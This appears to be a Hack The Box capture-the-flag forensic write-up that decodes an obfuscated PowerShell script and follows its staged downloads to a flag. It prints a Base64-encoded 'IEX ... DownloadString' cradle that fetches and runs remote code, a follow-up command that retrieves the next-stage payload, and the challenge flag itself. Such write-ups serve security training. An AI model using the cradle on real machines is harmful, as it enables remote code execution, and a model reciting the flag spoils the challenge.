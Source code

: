 # 🔍 Forensic – Thorin's Amulet

## Challenge Overview

This forensic investigation involves analyzing an obfuscated PowerShell script, decoding a payload, and tracing staged download commands to uncover a hidden flag.

---

### 🛠 Preparation

To avoid modifying your `/etc/hosts` file, replace the hostname `korp.htb` with the Docker IP:
```
94.237.61.100:37543
```

---

### 🔹 Step 1: Download and Open the `.ps1` Script

Examine the contents of the PowerShell script. You'll find a Base64-encoded string embedded within:

```powershell
"SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
```

---

### 🔹 Step 2: Decode the Base64 String

Use your favorite tool to decode it. It translates to:

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
```

Replace `korp.htb` with `94.237.61.100:37543` to access it directly.

---

### 🔹 Step 3: Visit the Update URL

Navigate to:

👉 `http://94.237.61.100:37543/update`

This will download a second PowerShell file: `update.ps1`.

---

### 🔹 Step 4: Download the Next Stage Payload

Execute the following PowerShell command to retrieve the final script:

```powershell
Invoke-WebRequest -Uri "http://94.237.61.100:37543/a541a" `
  -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} `
  -Method GET -OutFile a541a.ps1
```

This fetches `a541a.ps1`, which contains the logic to generate the final flag.

---

### 🏁 Flag

```
HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}
```

## Write-Up Credit: [kkc123](https://ctf.hackthebox.com/user/profile/606424)